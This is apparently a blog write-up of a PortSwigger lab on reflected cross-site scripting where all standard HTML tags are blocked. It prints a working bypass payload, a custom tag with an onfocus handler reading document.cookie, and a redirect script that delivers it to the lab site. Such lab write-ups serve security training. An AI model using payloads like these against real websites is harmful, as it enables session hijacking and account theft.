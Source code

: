 ```yaml
---
title: PortSwigger Labs - Reflected XSS into HTML context with all tags blocked except custom ones
date: 2021-06-23 10:40:00 +0200
categories: [PortSwigger-Labs]
tags: [xss, reflected-xss, custom-tags]     # TAG names should always be lowercase
dirImg: /assets/img/PortSwigger/Reflected-XSS-on-custom-tag
---
```

# Reflected XSS into HTML context with all tags blocked except custom ones

## Description

Link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

>![]({{ page.dirImg }}/20210623-175539.png){: .shadow}

## Writeup

The value of the `search` parameter is reflected in the response. So, let's test whether the input is not properly sanitized/escapade.

All tags are blacklisted except the custom ones. We can try to inject our own tag and trigger the payload on the `onfocus` event. 

The custom tag and attributes are: `<exploit id=x onfocus=alert(document.cookie); tabindex=1>`.



The content of the file visited by the user to trigger our XSS is:
``` javascript
<script>
location = "https://acca1f861ec66b0381e0022700040079.web-security-academy.net/?search=<exploit+id%3dx+onfocus%3dalert(document.cookie);+tabindex%3d1>#x";
</script>
```

The user will be redirected to the vulnerable page and the `#x` will  make the page focus on our custom tag, triggering the alert pop-up.


